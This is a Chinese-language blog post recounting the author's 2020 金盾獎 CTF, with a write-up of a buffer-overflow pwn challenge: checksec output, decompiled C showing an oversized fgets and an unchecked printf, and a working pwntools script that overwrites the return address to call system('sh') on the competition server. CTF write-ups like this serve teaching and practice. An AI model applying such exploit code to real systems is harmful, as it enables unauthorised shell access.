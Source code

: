 ```yaml
---
title: 2020年金盾獎
date: 2020-10-17 21:03:22
tags: 
  - pwn
  - comps
---
```


## 心得寫在前
<!-- more -->
### 10/17 初賽
這是我第一次參加金盾獎

初賽的題目總共是四題，競賽時間是兩小時，然後我想抱怨一下:

官網寫包含很多類別，其中有Misc, 但其實每題都是Misc= = (+forensics)

然後工作人員好像自己也不太懂(?)，好這不重要，反正題目幾乎都是鑑識，我不會QQ

只解了第一題就進決賽xD

### 10/20 決賽
其實當初沒有想到會進決賽，想當然爾，我們是墊底進的Orz

今年的題目有所謂的 “教學題”，就是直接提供解法，但會扣分(400 -> 100)

似乎是怕有人會掛蛋嘛XDDDD

賽中出題者好像不太懂分類(?)，把Web出到Pwn去，然後Reverse = Pwn

最後我們燒雞，我解出一題(唯一的)PWN(假Reverse)，然後隊友開了Crypto_教學題的題示

然後就拿到第三了XDD，直接拿一萬回家

### 決賽
這次我唯一解出的題目是 Reverse_教學題

雖說是reverse啦，但看題敘可以明顯看出是有關Buffer Overflow，我引用一小段:

`…小明發現輸入過長的資料會導致 Segmentation Fault…`
看到這邊大概就有底了，然後再打開Binary:

#### 保護機制
```bash
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```
開了NX, 沒開Canary，很明顯是要stack overflow，接著看組語:
#### 分析:
`main()`:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  checkInfo();
  system("exit");
  return 0;
}
```
呼叫了`checkInfo()`, 接著就exit，注意這邊用了`system()`

`checkInfo()`:
```c
void checkInfo()
{
  char password[10]; // [esp+16h] [ebp-412h]
  char account[1024]; // [esp+20h] [ebp-408h]

  memset(account, 0, sizeof(account));
  *(_DWORD *)password = 0;
  *(_DWORD *)&password[4] = 0;
  *(_WORD *)&password[8] = 0;
  printf("Please input account: ");
  fflush(stdout);
  fflush(stdin);
  fgets(account, 10240, stdin);
  if ( strchr(account, 64) )
  {
    printf("account is : ");
    fflush(stdout);
    printf(account);
    fflush(stdout);
    putchar(10);
  }
  else
  {
    puts("account failed");
  }
  fflush(stdout);
  printf("Please input password: ");
  fflush(stdout);
  fflush(stdin);
  fgets(password, 1024, stdin);
  if ( !strcmp(password, "123456") )
  {
    printf("password is : ");
    fflush(stdout);
    printf(password);
    fflush(stdout);
    putchar(10);
  }
  else
  {
    puts("password failed");
  }
  fflush(stdout);
}
```
這邊可以看到`password[10], account[1024]`，但`fgets()`讀了10240，明顯的buffer overflow

指向`system@plt`，接著布置參數就好
#### exploit
```python
#!/usr/bin/env python2
from pwn import *
import pwnlib.elf
context.log_level = 'debug'

e = ELF('./check_passwd')
p = process('./check_passwd')
p = remote('10.3.202.18', 6666)

payload = '\x00'*1036
payload += p32(e.symbols['system'])
payload += p32(e.symbols['main'])
payload += p32(e.search('sh').next())

p.sendlineafter(':', payload)
#p.sendline('A')

p.interactive()
p.close()
```